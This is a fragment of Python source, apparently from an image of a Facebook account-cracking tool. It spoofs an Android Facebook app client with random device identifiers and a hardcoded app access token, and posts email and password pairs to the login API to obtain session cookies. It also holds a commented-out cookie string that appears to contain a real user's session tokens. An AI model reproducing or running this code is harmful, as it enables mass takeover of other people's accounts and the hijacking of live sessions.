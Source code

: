                         ua = 'Davik/2.1.0 (Linux; U; Android '+android_version+'.0.1; '+model+' Build/'+build+') [FBAN/'+fban+';FBAV/'+fbav+';FBBV/'+fbbv+';FBDM/{density=3.0,width=1440,height=3130};FBLC/'+fblc+';FBRV/'+str(random.randint(000000000,999999999))+';FBCR/'+fbcr+';FBMF/'+fbmf+';FBBD/'+fbbd+';FBPN/'+fbpn+';FBDV/'+fbdv+';FBSV/'+fbsv+';FBOP/19;FBCA/'+fbca+';]'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',
                                'error_detail_type':'button_with_disabled',
                                'enroll_misauth':'false',
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        headers = {
    'authority': 'www.facebook.com',
    'accept': '*/*',
    'accept-language': 'en-US,en;q=0.9,ur-PK;q=0.8,ur;q=0.7',
    'content-type': 'application/x-www-form-urlencoded',
    # 'cookie': 'sb=lkCBZHSYKeCS3UJz0hEmLSOx; c_user=100022483292193; dpr=2.1988937854766846; datr=jop9ZTBLpgxvDHQozCBGHYWR; xs=14%3AdmhvOusBEUfCuA%3A2%3A1702692401%3A-1%3A5898%3A%3AAcVvEaB9X4Z2BSXoVhRht2B-S7t9DBUyC-rlBfFBOg; presence=C%7B%22t3%22%3A%5B%5D%2C%22utc3%22%3A1703038718592%2C%22v%22%3A1%7D; fr=1YCQYYtIzaVa1Kzyp.AWXUSwx4WTzkXamYXkuwox_DZH4.Blgk74.X5.AAA.0.0.Blgk_3.AWXBq8f3DpA; wd=891x1684',
    'dpr': '2.19889',
    'origin': 'https://www.facebook.com',
    'referer': 'https://www.facebook.com/',
    'sec-ch-prefers-color-scheme': 'light',
    'sec-ch-ua': '"Not_A Brand";v="8", "Chromium";v="120"',
    'sec-ch-ua-full-version-list': '"Not_A Brand";v="8.0.0.0", "Chromium";v="120.0.6099.26"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-model': '""',
    'sec-ch-ua-platform': '"Linux"',
    'sec-ch-ua-platform-version': '""',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36',
    'viewport-width': '891',
    'x-asbd-id': '129477',
    'x-fb-lsd': 'v_VRkTBq3ev5FxrdxaVkgz',
}